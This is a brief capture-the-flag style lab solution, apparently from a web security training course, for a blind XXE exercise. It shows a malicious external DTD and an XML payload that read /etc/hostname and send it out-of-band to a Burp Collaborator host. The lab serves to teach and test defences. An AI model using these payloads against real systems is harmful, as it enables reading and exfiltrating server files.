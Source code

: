 # Exploiting blind XXE to exfiltrate data out-of-band

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Exploit:

```DTD
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://h4mpvvu7dfq98uosfoe81bwag1mtai.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac2a1fd71e1c41bbc0373b1201d50007.web-security-academy.net/exploit.dtd"> %xxe; ]>
```